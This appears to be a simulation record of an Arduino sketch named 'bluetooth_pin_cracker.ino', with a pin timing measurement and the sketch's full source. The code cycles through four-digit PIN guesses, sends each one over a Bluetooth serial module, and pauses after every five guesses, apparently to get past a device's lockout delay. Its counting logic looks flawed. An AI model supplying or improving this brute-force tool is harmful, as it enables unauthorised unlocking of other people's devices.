
A sketch run on a simulated Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Parts: output pins drawn as LEDs (lit = HIGH). What the sketch prints to the serial monitor is not drawn.

Above: at 5.3 s.
At 23.6 s:

Timing chart, 0 to 52.6 s (numbered marks = the images above):


Measured:
- by itself, pin 13: alternates HIGH for 36.0 s and LOW for 0.63 s

The sketch:

bluetooth_pin_cracker.ino
```cpp
#include <SoftwareSerial.h>

SoftwareSerial BT = SoftwareSerial(3, 2);

char vals[4] = {'0', '0', '0', '0'};
int xidx = 1;
int combosTested = 0;
void attemptCombo() {
  if(xidx >= 4)
    xidx = 1;
  vals[xidx-1]++;
  if(vals[xidx-1] > '9') {
   vals[xidx]++;
   vals[xidx-1] = '0';
  }
  if(vals[xidx] >= '1') {
    //vals[xidx] = 0;
    xidx++;
  }
  for (int i = 0; i < 4; i++) {
    Serial.write(vals[i]);
    BT.write(vals[i]);
    delay(10);
  }
  BT.write('\n');
  //delay(1000);
  combosTested++;
  if(combosTested % 5 == 0 && combosTested != 0) {
     analogWrite(13, 255); //too lazy for digitalWrite
     delay(1000);
     BT.write('\n');
     delay(5000);
     BT.write('\n');
     delay(5000);
     BT.write('\n');
     delay(5000);
     BT.write('\n');
     delay(5000);
     BT.write('\n');
     delay(5000);
     BT.write('\n');
     delay(10000);

     analogWrite(13, 0);
  } else {
    delay(100);
  }
  //BT.write('\n');

}
void setup() {
  Serial.begin(9600);
  BT.begin(9600);

  delay(5000);
  Serial.println("Softserial/BT test!\n\rPress any key+return to start");
  //altkeystest();
  //nonprinting();
  //iphonekeyboard();
  //rawkeytest();

  //Supported in v1.1
  //rawmousetest();
}

void loop() {
  attemptCombo();

}
```
